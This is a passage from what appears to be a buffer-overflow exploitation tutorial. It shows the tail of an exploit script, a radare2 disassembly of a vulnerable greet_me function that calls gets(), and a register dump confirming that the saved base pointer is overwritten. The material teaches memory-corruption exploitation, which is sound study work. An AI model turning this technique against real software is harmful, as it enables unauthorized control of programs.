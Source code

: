 sys.stdout.buffer.write(buf)
```
And we already know what to do. We can jump to the greet function and place a breakpoint after ret (remember: ret will try to return to the addr on top of the stack, and we control the stack)
```
[0x55555555468a]> db 0x5555555546c6
[0x55555555468a]> dc
hit breakpoint at: 5555555546c6
[0x55555555468a]> pdf
/ (fcn) sym.greet_me 61
|   sym.greet_me ();
|           ; var int local_d0h @ rbp-0xd0
|              ; CALL XREF from 0x5555555546db (sym.main)
|           0x55555555468a      55             push rbp
|           0x55555555468b      4889e5         mov rbp, rsp
|           0x55555555468e      4881ecd00000.  sub rsp, 0xd0
|           0x555555554695      488d8530ffff.  lea rax, qword [local_d0h]
|           0x55555555469c      4889c7         mov rdi, rax
|           0x55555555469f      b800000000     mov eax, 0
|           0x5555555546a4      e8b7feffff     call sym.imp.gets       ; char*gets(char *s)
|           0x5555555546a9      488d8530ffff.  lea rax, qword [local_d0h]
|           0x5555555546b0      4889c6         mov rsi, rax
|           0x5555555546b3      488d3dba0000.  lea rdi, qword str.hi_there__s ; 0x555555554774 ; "hi there %s !!\n"
|           0x5555555546ba      b800000000     mov eax, 0
|           0x5555555546bf      e88cfeffff     call sym.imp.printf     ; int printf(const char *format)
|           0x5555555546c4      90             nop
|           0x5555555546c5      c9             leave
|           ;-- rip:
\           0x5555555546c6 b    c3             ret
[0x55555555468a]> 
```
We check that our exploit is triggering:
```
[0x55555555468a]> dr
rax = 0x000000eb
rbx = 0x00000000
rcx = 0x00000000
rdx = 0x00000000
r8 = 0x00000000
r9 = 0x000000de
r10 = 0xffffff22
r11 = 0x00000246
r12 = 0x555555554580
r13 = 0x7fffffffe0c0
r14 = 0x00000000
r15 = 0x00000000
rsi = 0x555555757270
rdi = 0x00000001
rsp = 0x7fffffffdfc8
rbp = 0x4242424242424242
rip = 0x5555555546c6
rflags = 0x00000206